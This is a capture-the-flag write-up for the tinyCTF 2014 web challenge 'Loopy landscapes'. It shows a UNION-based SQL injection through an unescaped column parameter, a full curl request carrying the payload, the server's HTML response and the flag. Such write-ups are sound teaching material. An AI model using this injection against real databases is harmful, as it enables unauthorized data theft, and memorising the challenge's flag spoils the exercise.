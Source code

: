 # tinyCTF 2014: What is Loopy landscapes?

**Category:** Web
**Points:** 200
**Description:**

> <http://54.69.118.120:8000/>

## Write-up

The `column` field on the website is vulnerable to SQL injection. It seems like the query being executed has the format:

```sql
SELECT name, park, country, height FROM rollercoaster WHERE $column LIKE %$value%;
```

…where `$column` is not escaped properly, but `$value` is.

After some manual fiddling, the final payload looks like this: `park = 0 AND 1=0 UNION ALL SELECT 1,hash,3,4 from flag#`.

```bash
$ curl --data "value=x&column=park%20%3D%200%20AND%201%3D0%20UNION%20ALL%20SELECT%201%2Chash%2C3%2C4%20from%20flag%23" 'http://54.69.118.120:8000/index.php'
<html>
    <head>
        <title>Archie's Roller Coaster Page</title>
        <link href='http://fonts.googleapis.com/css?family=EB+Garamond' rel='stylesheet' type='text/css'>
        <link rel="stylesheet" type="text/css" href="style.css"/>
    </head>
    <body>
        <div id="header">Archie's Coasters</div>
        <div id="search" class="whitebox">
            <form name="search" action="index.php" method="post">
                Search for
                <input name="value" type="text" placeholder="Search value"/>
                in
                <select name="column">
                    <option value="name">name</option>
                    <option value="park">park</option>
                    <option value="country">country</option>
                </select>
                <input type="submit" value="Go"/>
            </form>
        </div>
        <div id="content" class="whitebox">
            <table>
                <tr>
                    <th>
                        Name
                    </th>
                    <th>
                        Park
                    </th>
                    <th>
                        Country
                    </th>
                    <th>
                        Height
                    </th>

                </tr><tr><td>1</td><td>flag{unroll_those_loops}</td><td>3</td><td>4 m</td></tr></table>
        </div>
    </body>
</html>
```

The flag is `flag{unroll_those_loops}`.

## Other write-ups and resources

* none yet
